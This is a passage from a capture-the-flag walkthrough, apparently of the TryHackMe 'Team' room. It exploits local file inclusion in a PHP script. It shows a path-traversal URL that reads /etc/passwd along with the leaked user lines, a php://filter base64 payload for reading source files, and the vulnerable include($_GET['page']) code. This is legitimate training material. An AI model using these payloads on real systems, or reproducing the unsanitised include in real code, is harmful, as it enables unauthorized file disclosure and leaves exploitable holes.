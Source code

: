 ```
view-source:http://dev.team.thm/script.php?page=../../../../../etc/passwd
```

And we get the file contents back (I've removed all but those with shells for ease of reading): 

```
root:x:0:0:root:/root:/bin/bash
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
```

The icon image for the CTF on the THM website showing /../ now makes much more sense!

I want to take a peak inside the teamshare.php file to see if there's anything useful in it and use a php filter to convert it over to base64 and then decode it:

```
http://dev.team.thm/script.php?page=php://filter/read=convert.base64-encode/resource=teamshare.php
```

Returns the teamshare.php base64 encoded:

```
PGh0bWw+CiA8aGVhZD4KICA8dGl0bGU+VGVhbSBTaGFyZTwvdGl0bGU+CiA8L2hlYWQ+CiA8Ym9keT4KICA8P3BocCBlY2hvICJQbGFjZSBob2xkZXIgZm9yIGZ1dHVyZSB0ZWFtIHNoYXJlIiA/PgogPC9ib2R5Pgo8L2h0bWw+Cg==
```

And decoding it:

`echo "PGh0bWw+CiA8aGVhZD4KICA8dGl0bGU+VGVhbSBTaGFyZTwvdGl0bGU+CiA8L2hlYWQ+CiA8Ym9keT4KICA8P3BocCBlY2hvICJQbGFjZSBob2xkZXIgZm9yIGZ1dHVyZSB0ZWFtIHNoYXJlIiA/PgogPC9ib2R5Pgo8L2h0bWw+Cg==" | base64 -d`

```
<html>
 <head>
  <title>Team Share</title>
 </head>
 <body>
  <?php echo "Place holder for future team share" ?>
 </body>
</html>
```

No luck, this just matches what shows up in view source.

I try the same thing with the script.php in the url:

`echo "Cjw/cGhwICAgCiRmaWxlID0gJF9HRVRbJ3BhZ2UnXTsKICAgaWYoaXNzZXQoJGZpbGUpKQogICB7CiAgICAgICBpbmNsdWRlKCIkZmlsZSIpOwogICB9CiAgIGVsc2UKICAgewogICAgICAgaW5jbHVkZSgidGVhbXNoYXJlLnBocCIpOwogICB9Cj8+Cg==" | base64 -d`

```php
<?php   
$file = $_GET['page'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("teamshare.php");
   }
?>
```
